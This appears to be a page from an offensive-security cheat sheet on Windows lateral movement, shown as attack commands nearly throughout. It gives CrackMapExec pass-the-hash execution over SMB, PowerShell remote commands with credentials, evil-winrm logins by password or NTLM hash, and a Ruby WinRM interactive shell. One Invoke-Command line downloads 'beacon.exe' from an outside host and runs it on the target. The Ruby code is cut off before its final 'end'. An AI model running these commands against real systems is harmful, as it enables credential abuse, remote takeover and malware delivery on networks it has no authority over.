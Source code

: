 ## Crackmapexec

```powershell
root@payload$ git clone https://github.com/byt3bl33d3r/CrackMapExec.github
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -x 'whoami' # cmd
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -X 'whoami' # powershell
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method atexec -x 'whoami'
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method wmiexec -x 'whoami'
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -x 'whoami'
```

## Remote Code Execution with PS Credentials

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'secretpassword' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
PS C:\> Invoke-Command -ComputerName DC01 -Credential $Cred -ScriptBlock {whoami}
PS C:\> New-PSSESSION -NAME PSDC -ComputerName COMPUTER01; Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {whoami}
PS C:\> Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {powershell Invoke-WebRequest -Uri 'http://10.10.10.10/beacon.exe' -OutFile 'C:\Temp\beacon.exe'; Start-Process -wait C:\Temp\beacon.exe}
```

## WinRM

Require:
* Port **5985** or **5986** open.
* Default endpoint is **/wsman**

```powershell
root@payload$ git clone https://github.com/Hackplayers/evil-winrm
root@payload$ evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
root@payload$ evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
root@payload$ ruby evil-winrm.rb -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
```

or using a custom ruby code to interact with the WinRM service.

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://ip:5985/wsman',
  user: 'domain/user',
  password: 'password',
)

command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
```

[DC01]: PS>